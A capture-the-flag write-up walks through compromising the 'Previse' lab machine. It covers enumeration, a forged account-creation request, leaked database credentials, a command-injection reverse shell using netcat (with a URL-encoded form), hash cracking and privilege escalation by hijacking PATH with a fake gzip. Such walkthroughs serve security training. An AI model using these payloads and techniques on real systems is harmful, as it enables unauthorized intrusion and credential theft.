

# Previse

- Target Machine: 10.10.11.104

## Enumeration

### nmap scan

```bash
# Nmap 7.92SVN scan initiated Thu Sep  9 10:33:26 2021 as: nmap -sC -sV -oN nmap/initial.log 10.10.11.104
Nmap scan report for 10.10.11.104
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  9 10:33:51 2021 -- 1 IP address (1 host up) scanned in 25.70 seconds
```

### gobuster scan

```bash
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/footer.php           (Status: 200) [Size: 217]
/header.php           (Status: 200) [Size: 980]
/favicon.ico          (Status: 200) [Size: 15406]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 302) [Size: 2801] [--> login.php]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/status.php           (Status: 302) [Size: 2968] [--> login.php]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/nav.php              (Status: 200) [Size: 1248]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/.htgroup             (Status: 403) [Size: 277]
/wp-forum.phps        (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
/.htaccess.old        (Status: 403) [Size: 277]
/.htacess             (Status: 403) [Size: 277]
```

The `nav.php` page is freely accessible without logging in. This page contains a menu with some links that redirect to other pages where however logging in is necessary.

### Burpsuite analysis

Even thought we get redirected to `login.php` while checking these pages, we can use burpsuite __HTTP history__ to check the page contents, due to the page being loaded for a short amount of time before redirecting.

As we can see, we can easily check the contents of the `accounts.php` page using this method:


Scrolling to the contents, we reach a form with some POST data where we can create an account:


We can [copy this form](scripts/account_creator.html), forging our own POST request to the server, creating the account `testuser : testuser`
We can now login as testuser and access the `files.php` page, finding a link that lets us download a file named `sitebackup.zip`

In the file `config.php` we can find some credentials:

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

## Accessing the machine

By looking through the contents of the logs.php page, we can see an exec function being called including unfiltered POST data, meaning we can abuse this to inject our own command.

```php
/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```

Using Burpsuite, we can intercept the POST request sent to this page from the file_logs.php page and edit it with our URL encoded command to generate a reverse shell.
__ATTENTION__: first you must start a netcat listener on your machine

- PAYLOAD: ; nc {your_ip} 1234 -e /bin/bash

- URL ENCODED PAYLOAD: %3b%20%6e%63%20%31%30%2e%31%30%2e%31%34%2e%31%39%36%20%31%32%33%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68



Now we can upgrade our shell by running `/usr/bin/script -qc /bin/bash /dev/null`

### Accessing the MySQL database

Since we know the MySQL root user's password, we can access it by running `mysql -u root -p previse`

We can list all the user passwords by running the query `SELECT * FROM accounts`, finding m4lwhere's password: `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

We can now use John the Ripper to crack this hash and find the password, which is: `ilovecody112235!`. We can now SSH into the machine as m4lwhere and get the user flag

## Priviledge Escalation

Using `sudo -l` we can see the command priviledges of the user m4lwhere.

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh

m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

As we can see, the script access_backup.sh calls gzip using a relative path and not an absolute one, meaning we can create a fake gzip script which will be run instead of the intended one, spawning a root shell

```
m4lwhere@previse:~$ export PATH=/tmp:$PATH
 
m4lwhere@previse:~$ cd /tmp/

m4lwhere@previse:/tmp$ echo /bin/bash > gzip

m4lwhere@previse:/tmp$ chmod +x gzip 

m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh

root@previse:/tmp# id
```

__ATTENTION__: since the output of gzip is being redirected to `/var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz`, we can't actually read what is going on the root shell, but we can still run stuff

```
root@previse:/tmp# cp /root/root.txt /tmp

root@previse:/tmp# chmod 777 root.txt 

root@previse:/tmp# exit
exit

root@previse:/tmp# exit
exit

m4lwhere@previse:/tmp$ cat root.txt 
```

__ATTENTION__: PLEASE remember to delete the copied root.txt file after getting the flag or else other users that are trying to solve the challenge will also be able to read it. PLEASE don't ruin other people's experience by being greedy. Thank you!